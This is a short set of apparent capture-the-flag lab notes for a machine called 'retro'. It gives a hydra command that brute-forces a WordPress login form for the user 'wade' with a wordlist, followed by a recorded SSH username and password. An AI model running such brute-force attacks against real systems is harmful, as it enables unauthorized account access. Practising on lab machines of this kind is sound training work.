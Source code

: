 # COMMAND
- hydra -l wade -P docsword_sorted.txt -vV 10.10.180.193 http-form-post "/retro/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fretro%2wp-admin%2F&testcookie=1:200"

# CREDS
## SSH 
santa:rudolphrednosedreindeer
